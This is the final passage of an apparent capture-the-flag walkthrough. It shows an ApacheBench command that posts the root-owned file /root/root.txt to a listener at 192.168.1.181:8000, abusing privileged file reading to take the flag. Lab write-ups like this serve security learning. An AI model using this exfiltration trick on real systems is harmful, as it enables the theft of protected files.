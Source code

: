 ```bash
ab -p /root/root.txt http://192.168.1.181:8000/onepath
```

We get the root flag.

![Root flag](../../assets/images/securitrona/20250628_224356_image.png)

That's all. In this machine, privilege escalation is not foreseen, but privileged file reading is.
